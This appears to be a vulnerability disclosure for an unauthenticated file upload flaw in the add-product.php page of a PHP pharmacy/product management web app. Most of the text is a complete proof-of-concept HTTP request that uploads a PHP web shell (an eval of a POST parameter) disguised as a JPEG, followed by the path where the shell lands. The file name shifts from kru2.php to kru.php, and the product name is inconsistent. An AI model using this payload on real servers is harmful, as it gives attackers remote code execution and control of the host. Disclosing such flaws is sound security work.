



The Web-based Pharmacy Product Management System has a file upload vulnerability, which can be used by an attacker to upload malicious files to the server without authentication, thereby damaging or controlling the server.


Source code address：https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html


The vulnerability is located in the /add-product.php file. In line 40, the format of the avatar parameter starts to check whether it belongs to the types in line 41. You can see that there is no restriction on file suffix or other places. Execute and save to the uploadImage/ directory if the requirements of the avatar parameters are met.



Vulnerability verification：

```
POST /product_expiry/add-product.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 808
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzbKYdvGCNA4LqQAY
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/product_expiry/add-product.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtproduct_name"

11111
------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="cmdcategory"


------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtexpirydate"


------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtqty"

12
------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="txtprice"

1111
------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="avatar"; filename="kru2.php"
Content-Type: image/jpeg

<?php
eval($_POST["pass1"]);

------WebKitFormBoundaryzbKYdvGCNA4LqQAY
Content-Disposition: form-data; name="btnsave"


------WebKitFormBoundaryzbKYdvGCNA4LqQAY--

```




The path after the file is uploaded is： http://192.168.80.152/product_expiry/uploadImage/kru.php





